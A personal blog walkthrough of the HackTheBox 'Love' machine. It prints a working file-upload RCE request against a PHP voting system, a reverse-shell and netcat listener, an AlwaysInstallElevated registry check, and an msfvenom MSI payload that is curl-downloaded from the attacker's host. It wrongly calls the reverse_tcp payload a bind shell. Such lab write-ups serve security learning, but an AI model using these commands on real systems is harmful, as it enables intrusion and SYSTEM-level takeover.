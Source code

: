 ```yaml
---
layout: post
title: Love
subtitle: Love HackTheBox
cover-img: /assets/img/htb-bg.png
thumbnail-img: /assets/img/Love_Big.png
share-img: /assets/img/Love_Release.jpg
categories: HackTheBox
tags: [Windows, CVE]
---
```

<img src="https://github.com/susMdT/secondsite.github.io/blob/dev-pages/assets/img/Love_Release.jpg?raw=true" class="mx-auto d-block" unselectable="on" />
Love is an easy level box on HackTheBox and took quite some time for me to solve as it was the second box that I have tried to solve. It was pretty interesting to solve and I learned some new exploit methods that I could try to use later. I utilized an Unauthenticated RCE exploit on the application the website was running to gain a foothold, and then used AlwaysInstallElevated to gain System.

# Walkthrough
First I performed an nmap scan using `nmap -p- <box ip>`. This first identifies the ports in use. You can follow this up with `nmap -sV -sC -A --script=vuln <box ip> -p x,y,z > file.txt` to get a more indepth scan of those running ports and the system itself, but I was too lazy to do that. This second command will also write the results of the scan to a `file.txt` in your current directory so you could reference the scan again later, if necessary. The result of my initial nmap scan showed me that http was running:
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(1).png?raw=true)  
<br />
<br />
Accessing the website I notice that it's titled "Voting System using PHP", so I try to find out if theres an existing exploit for it.
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(2).png?raw=true) 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(3).png?raw=true) 
<br />
<br />
Accessing the exploit-db link shows an exploit that I can use. Based on the title, it's an exploit for unauthenticated remote code execution, meaning that if it works, I can execute code on the web server without needed any sort of credentials. Further explanation on the vulnerability can be found at:  https://www.cybersecurity-help.cz/vdb/SB2021050511. According to this resource, Unauthenticated RCE is achieved through uploading php files that will be run by the server and stored at the `/images/`directory. The exploit is a in the form of a HTTP POST request
```markdown
POST /admin/candidates_add.php HTTP/1.1
Host: 192.168.1.1
Content-Length: 275
Cache-Control: max-age=0
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrmynB2CmGO6vwFpO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/admin/candidates.php
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo exec("whoami"); ?>

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="add"
```

Reading this post request, if I change the php code being used as the payload (near the bottom, between the angle brackets), I could potentially send a php code for a reverse shell. I decided to use  https://www.revshells.com to generate a PHP Ivan Sincek reverse shell under the IP of my machine and port 4444 (personal preference). I copy and pasted the shell generated from the site and replaced the payload. After sending the post request in Burp, I checked to see it worked.
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(5).png?raw=true) 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(7).png?raw=true) 
<br />
<br />
Note that I replaced the red `//` in the burp picture with the Ivan Sincek php code. And we can see that it worked. All we have to do now is set up a listener on port 4444 and click the the link to our php code in the `/images/` directory. I set up a listener by running `nc -nvlp 4444` and then clicking `a.php` gives me:
<br />
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(8).png?raw=true) 
<br />
<br />
Sweet, and we're in a Windows machine. Let's check something simple; is AlwaysInstallElevated on? What this policy does is that, if it's on (we can check the registry), it will install any `.msi` files with SYSTEM level privileges. Running the `REG QUERY HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` will tell us if its enabled.
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(9).png?raw=true) 
<br />
<br />
The 0x1 means that the policy is turned on. It's too lit. To abuse this, we can create a malicious msi file that will give us a bind shell, granting us remote access of the machine. Whereas in a remote shell we open a port on our attacking machine and the victim connects to us, a bind shell will have a port open up on the victim while we connect to it. This sounds complicated, but we can use msfvenom to generate it very easily. Running the command `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your ip> LPORT=<port>-f msi > robux.msi` will create the payload. 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(11).png?raw=true) 
<br />
<br />
We can then set up a http server on our machine that our victim will access to download the file using curl. Run `python3 -m http.server` and `curl <my machine ip>:<port number><path to payload> --output <filename>` on the respective machines. I ran `curl`  in the `\images` so I could just refresh the webpage to see if my payload was uploaded (however you could just use `dir` to check on the reverse shell)
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(12).png?raw=true) 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(14).png?raw=true) 
<br />
<br />
Now lets check if our payload is there.
<br />
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(15).png?raw=true) 
<br />
<br />
Robux op. Before we run this, we have to remember that we're using a bind shell so we have to connect to the listener that will be active once we run our payload. This can be done through metasploit and running the exploit `multi/handler` and setting our respective `LHOST` and `LPORT`.
<br />
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(17).png?raw=true) 
<br />
<br />
Now lets run the msi file on the compromised host (we can just type out the filename and extension if its in our directory, or write the full path). 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(16).png?raw=true) 
<br />
<br />
ggez
-Dylan Tran 9/3/2021
